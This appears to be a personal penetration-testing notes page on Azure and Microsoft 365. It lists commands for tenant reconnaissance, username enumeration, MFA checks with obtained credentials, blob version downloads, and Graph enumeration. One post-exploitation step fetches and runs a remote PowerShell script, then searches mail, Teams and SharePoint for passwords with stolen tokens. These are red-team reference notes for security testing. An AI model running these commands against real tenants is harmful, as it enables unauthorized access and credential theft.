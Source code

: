 ```yaml
---
title: Azure Notes 
weight: 40
menu:
  notes:
    name: Azure Notes
    identifier: notes-cloud-azure-info
    parent: notes-cloud-azure
    weight: 20
---
```



{{< note title="Recon and Enumeration">}}

Get basic information about the domain
```
https://login.microsoftonline.com/getuserrealm.srf?login=example.com&xml=1
```


AAD Internals
```
Get-AADIntLoginInformation -Domain <example.com>
Get-AADIntTenantID -Domain <example.com>
Invoke-AADIntReconAsOutsider -DomainName <example.com>
https://aadinternals.com/osint/
```

Azure Subdomain Enumeration
```
Github https://github.com/yuyudhn/AzSubEnum
python3 azsubenum.py -b domain -p permutations.txt -v
```

Username Enumeration
```
Github: https://github.com/0xZDH/Omnispray
python3 omnispray.py -m o365_enum_office -d example.com -uf ~/Documents/userList.txt
```

Checking Azure MFA (Assuming Credentials are obtained)
```
Github: https://github.com/dafthack/MFASweep
Invoke-MFASweep -Username <Username> -Password <password> -Recon -IncludeADFS
```

Blob Enumeration
```
Format
https://<storageAccount>.blob.core.windows.net/<containername>/file.txt

//List Directories in Blob
https://<storageAccount>.blob.core.windows.net/<containername>?restype=container&comp=list&delimiter=%2F

//Check for Versioning in blob
curl -H "x-ms-version: 2019-12-12" 'https://<storageAccount>.blob.core.windows.net/<containername>?restype=container&comp=list&include=versions' | xmllint --format - | less

//Download Potential Files (assuming versioning is enabled)
curl -H "x-ms-version: 2019-12-12" 'https://<storageAccount>.blob.core.windows.net/<containername>/file.zip?versionId=<VersionID>' --output file.zip
``` 

Azure App Enumeration
```
<appName>.azurewebsites.net
<appName>.scm.azurewebsites.net
```


{{< /note >}}


{{< note title="Post Exploitation">}}

GraphRunner to enumerate Office Products 
```
IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password filetype:xlsx'
Invoke-SearchTeams -Tokens $tokens -SearchTerm password
Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 50
```
{{< /note >}}


{{< note title="Az and Graph Powershell Modules">}}

Setup Az and Graph Powershell Modules 
```
az login

Install-Module Microsoft.Graph
Import-Module Microsoft.Graph
Connect-MgGraph
```

Az Cli Enumeration
```
az account list --output table
az resource list --output table 
```

Microsoft Graph Powershell Enumeration
```
#Get user Info
Get-MgUser -UserId <email> | fl
#Get AU Info
Get-MgDirectoryAdministrativeUnit | fl

#Get Roles associated with an AU
#Automation Script: https://github.com/BenTamam/PentestPlayground/blob/main/Azure/Scripts/CheckScopedRolePrivileges.ps1
$ScopedRoleMembers = Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId <AU-ID>
Get-MgDirectoryRole -DirectoryRoleId <RoleID> | fl

#Find Users who are members of the Role
foreach ($member in $ScopedRoleMembers) {
    $userId = $member.RoleMemberInfo.Id
    
    if (-not $userId) {
        Write-Output "No user ID available for member with Role ID: $($member.RoleId)"
        continue
    }

    $userDetails = Get-MgUser -UserId $userId
    
    if ($userDetails) {
        Write-Output "User Details: Name - $($userDetails.DisplayName), Email - $($userDetails.Mail), Role ID - $($member.RoleId)"
    } else {
        Write-Output "Failed to retrieve details for user ID: $userId"
    }
}

#Checking Members of the AU
Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId <AU-ID>
```


{{< /note >}}

